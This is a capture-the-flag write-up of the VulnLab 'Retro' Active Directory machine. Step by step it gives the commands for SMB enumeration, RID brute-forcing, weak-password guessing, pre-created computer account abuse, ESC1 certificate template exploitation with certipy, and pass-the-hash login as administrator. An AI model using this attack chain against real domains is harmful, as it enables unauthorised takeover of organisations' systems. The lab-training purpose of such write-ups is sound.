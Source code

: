 ```yaml
---
title: VulnLab -- Retro Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ESC1,ADCS,pre2k]
image:
    path: ../images/Retro-banner.png
---
```

# Retro

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/retro-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 593,3389,139,3268,636,49670,49669,389,445,135,49673,464,49664,49668,9389,53,49716 --min-rate=1000 10.10.95.73
```

![image.png](../images/retro.png)

now let’s try to enumerate the shares

```bash
nxc smb retro.vl -u 'guest' -p '' --shares --users
```

![image.png](../images/retro%201.png)

we found a share named Trainees so let’s connect to it 

```bash
smbclient \\\\retro.vl\\Trainees -U "retro.vl\guest"
```

![image.png](../images/retro%202.png)

As we see there is a file named Important so let’s download it and see it’s content

```bash
 get Important.txt
```

![image.png](../images/retro%203.png)

> Notice that we found a note saying that the students can’t remember strong passwords which mean that there password is weak
> 

Now let’s get the usernames

```bash
nxc smb retro.vl -u 'guest' -p '' --rid-brute 10000
```

![image.png](../images/retro%204.png)

Now let’s save the whole result in a file and extract the names

```bash
cat result.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/retro%205.png)

and we got the users names

Now let’s test the user trainee with the password is the username and see if we can login

```bash
nxc smb retro.vl -u trainee -p trainee
```

![image.png](../images/retro%206.png)

> And we are authenticated!
> 

Now let’s enumerate the shares with the new user

```bash
nxc smb retro.vl -u trainee -p trainee --shares
```

![image.png](../images/retro%207.png)

Notice that we got access to the notes share so let’s go and connect to it

```bash
smbclient \\\\retro.vl\\Notes -U "retro.vl\trainee"
```

![image.png](../images/retro%208.png)

and we got access to a ToDo file so let’s download it and see it’s content

```bash
get ToDo.txt
```

![image.png](../images/retro%209.png)

> Notice that the note is referring that the environment have a pre created computer account so let’s try to abuse it
> 

Now let’s search for the pre created computer accounts and it’s passwords

```bash
poetry run pre2k auth -u trainee -p trainee -d retro.vl -dc-ip 10.10.95.73
```

![image.png](../images/retro%2010.png)

> Amazing we found that there is a computer named BANKING$ with password banking
username: BANKING$
password: banking
> 

now let’s get bloodhound 

```bash
bloodhound-python -ns 10.10.95.73 -d retro.vl -u trainee -p trainee -c all --zip
```

![image.png](../images/retro%2011.png)

Now open the bloodhound and let’s search for any interesting information 

![image.png](../images/retro%2012.png)

and we didn’t find anything interesting

let’s search for the certificate templates in the enviroment

```bash
 certipy-ad find -u trainee@retro.vl -p trainee -dc-ip 10.10.95.73
```

![image.png](../images/retro%2013.png)

Now let’s search for any ESC to abuse

```bash
cat 20250328163600_Certipy.txt | grep -i ESC -b40
```

![image.png](../images/retro%2014.png)

notice that we found a ESC1 vulnerability in a template named RetroClients and we can abuse it using the Banking$ computer we have

 Now let’s change the password of the banking computer

```bash
impacket-changepasswd retro.vl/BANKING$:banking@10.10.95.73 -altuser trainee -altpas trainee
```

![image.png](../images/retro%2015.png)

now let’s abuse the Vulnerable template

```bash
certipy-ad req -ca 'retro-DC-CA' -dc-ip '10.10.95.73' -u 'BANKING$' -p 'remo123$' -template 'RetroClients' -target 'dc.retro.vl' -upn 'administrator@retro.vl' -key-size 4096
```

![image.png](../images/retro%2016.png)

now let’s retrive the administrator hash

```bash
certipy-ad auth -pfx administrator.pfx
```

![image.png](../images/retro%2017.png)

So as we have the administrator hash let’s go and login using it.

```bash
evil-winrm -i retro.vl -u administrator -H 252fac7066d93dd009d4fd2cd0368389
```

![image.png](../images/retro%2018.png)

and we did it we logged in as administrator 🥳 

No let’s go and get the root flag

```bash
cd C:\Users\Administrator\desktop
```

![image.png](../images/retro%2019.png)

Amazing we solved the machine 😍

![image.png](../images/retro%2020.png)

That’s it for the **Retro** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX